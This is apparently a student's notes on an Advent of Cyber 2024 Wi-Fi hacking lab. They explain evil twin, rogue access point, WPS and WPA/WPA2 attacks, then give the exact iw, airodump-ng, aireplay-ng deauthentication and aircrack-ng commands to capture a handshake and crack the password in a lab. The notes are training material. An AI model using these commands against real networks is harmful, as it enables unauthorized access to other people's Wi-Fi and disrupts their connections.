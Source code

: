 
2024-12-23 16:25

Source: #AOC24 

Tags: [[Wi-Fi Hacking]]

access points (often the routers) that are broadcasting Wi-Fi signals with a unique **SSID** (network name). You can connect to any of these if you know the correct password, also known as a pre-shared key (**PSK**)
### Attacks on Wi-Fi

#### Evil twin attack

- In this attack, the attacker creates a fake access point that has a similar name to one of your trusted Wi-Fi access points.
- The attack starts with the attacker sending de-authentication packets to all the users connected to their legitimate Wi-Fi access points. The users would face repeated disconnections from the network after this. With frustration, the users are likely to open the Wi-Fi access points list for troubleshooting and will find the attacker's Wi-Fi with almost similar name and with greater signal strength. They would go to connect it, and once connected, the attacker could see all their traffic to or from the Internet.
#### Rogue access point

- objective is similar to that of the evil twin attack. 
- In this attack, the attacker sets up an open Wi-Fi access point near or inside the organization's physical premises to make it available to users with good signal strength. 
#### WPS attack

- The attack is made by initiating a WPS (Wi-Fi Protected Setup) handshake with the router and capturing the router's response, which contains some data related to the PIN and is vulnerable to brute-force attacks. 
#### WPA/WPA2 cracking

- While cracking WPA, attackers start by sending de-authentication packets to a legitimate user of the Wi-Fi network.
- Once the user disconnects, they try to reconnect to the network, and a 4-way handshake with the router takes place during this time.
- Meanwhile, the attacker turns its adaptor into monitor mode and captures the handshake. 
- After the handshake is captured, the attacker can crack the password by using brute-force or dictionary attacks on the captured handshake file.

**We are going to look at only WPA/WPA2 cracking**
### 4-way handshake

The WPA 4-way handshake is a process that helps a client device (like your phone or laptop) and a Wi-Fi router confirm they both have the right "password" or Pre-Shared Key (PSK) before securely connecting.

Here's a simplified rundown of what happens:
- **Router sends a challenge:** The router (or access point) sends a challenge" to the client, asking it to prove it knows the network's password without directly sharing it.
- **Client responds with encrypted information:** The client takes this challenge and uses the PSK to create an encrypted response that only the router can verify if it also has the correct PSK.
- **Router verifies and sends confirmation:** If the router sees the client’s response matches what it expects, it knows the client has the right PSK. The router then sends its own confirmation back to the client.
- **Final check and connection established:** The client verifies the router's response, and if everything matches, they finish setting up the secure connection.

### The Vulnerability

The vulnerability lies in the fact that an attacker can capture this 4-way handshake if they’re listening when a device connects. With the handshake data, they can use it as a basis to attempt offline brute-force or dictionary attacks. Essentially, they try different possible passwords and test each one to see if it would produce the captured handshake data, eventually cracking the PSK if they get a match.![[AoC-Day-11---Wifi-Animation-2.gif]]
### Lab

```sh
$ iw dev # This will show any wireless devices and their configuration that we have available for us to use
phy#2
	Interface wlan2 # we would scan for nearby Wi-Fi networks using our wlan2 device
		ifindex 5
		wdev 0x200000001 
		addr 02:00:00:00:02:00 
		type managed 
		txpower 20.00 dBm
```

1. The `addr` is the **MAC/BSSID** of our device. BSSID stands for Basic Service Set Identifier, and it's a unique identifier for a wireless device or access point's physical address.
2. The `type` is shown as **managed**. This is the standard mode used by most Wi-Fi devices (like laptops, phones, etc.) to connect to Wi-Fi networks. In managed mode, the device acts as a client, connecting to an access point to join a network.

```shell
glitch@wifi:~$ sudo iw dev wlan2 scan
BSS 02:00:00:00:00:00(on wlan2)
	last seen: 520.388s [boottime]
	TSF: 1730575383370084 usec (20029d, 19:23:03)
	freq: 2437
	beacon interval: 100 TUs
	capability: ESS Privacy ShortSlotTime (0x0411)
	signal: -30.00 dBm
	last seen: 0 ms ago
	Information elements from Probe Response frame:
	SSID: MalwareM_AP
	Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 
	DS Parameter set: channel 6
	ERP: Barker_Preamble_Mode
	Extended supported rates: 24.0 36.0 48.0 54.0 
	RSN:	 * Version: 1
		 * Group cipher: CCMP
		 * Pairwise ciphers: CCMP
		 * Authentication suites: PSK
		 * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
	Supported operating classes:
		 * current operating class: 81
	Extended capabilities:
		 * Extended Channel Switching
		 * Operating Mode Notification                                                                               
```

- The **BSSID** and **SSID** of the device are `02:00:00:00:00:00` and `MalwareM_AP` respectively. Since the SSID is shown, this means the device is advertising a network name, which access points do to allow clients to discover and connect to the network.
- The presence of **RSN (Robust Security Network)** indicates the network is using WPA2, as RSN is a part of the WPA2 standard. WPA2 networks typically use RSN to define the encryption and authentication settings.
- The `Group and Pairwise ciphers` are **CCMP**. Counter Mode with Cipher Block Chaining Message Authentication Code Protocol (CCMP) is the encryption method used by WPA2.
- The `Authentication suites` value inside RSN is **PSK** indicating that this is a WPA2-Personal network, where a shared password is used for authentication.
- Another important detail is the `DS Parameter set` value, which shows **channel 6**. The channel, in terms of Wi-Fi, refers to a specific frequency range within the broader Wi-Fi spectrum that allows wireless devices to communicate with each other. There are various Wi-Fi channels, and they all help distribute network traffic across various frequency ranges, which reduces interference. The two most common Wi-Fi channels are 2.4 GHz and 5GHz. In the 2.4 GHz band, channels 1, 6, and 11 are commonly used because they don’t overlap, minimizing interference. In the 5 GHz band, there are many more channels available, allowing more networks to coexist without interference.
#### Switching to monitor mode 

```shell
glitch@wifi:~$ sudo ip link set dev wlan2 down # turn our device off
glitch@wifi:~$ sudo iw dev wlan2 set type monitor # change wlan2 to monitor mode
glitch@wifi:~$ sudo ip link set dev wlan2 up # turn our device back on
```

We can confirm that our interface is in monitor mode with the command `sudo iw dev wlan2 info`.\

**Note:** By default, `airodump-ng` will automatically switch the selected wireless interface into monitor mode if the interface supports it.

1st Terminal

we start by capturing Wi-Fi traffic in the area, specifically targeting the WPA handshake packets

```sh
sudo airodump-ng wlan2 # provides a list of nearby Wi-Fi networks (SSIDs) and shows important details
```

```sh
sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2 # This command targets the specific network channel and MAC address (BSSID) of the access point for which you want to capture the traffic
```
goal of this command is to capture the 4-way handshake. It will first check for any clients that may be connected to the access point. If a client is already connected, then we can perform a deauthentication attack; otherwise, for any new client that connects, we will capture the 4-way handshake.

2nd Terminal 

We will launch the deauthentication attack. Because the client is already connected, we want to force them to reconnect to the access point, forcing it to send the handshake packets

``` sh
sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
```
- `-0` flag indicates that we are using the deauthentication attack,
- `1` value is the number of deauths to send. 
- `-a` indicates the BSSID of the access point 
- `-c` indicates the BSSID of the client to deauthenticate.

```sh
sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
```
`-a 2` flag indicates the WPA/WPA2 attack mode

> **Note:** If you get an `Packets contained no EAPOL data; unable to process this AP` error, this means that you ran aircrack-ng prior to the handshake being captured or that the handshake was not captured at all.


### References
Day 11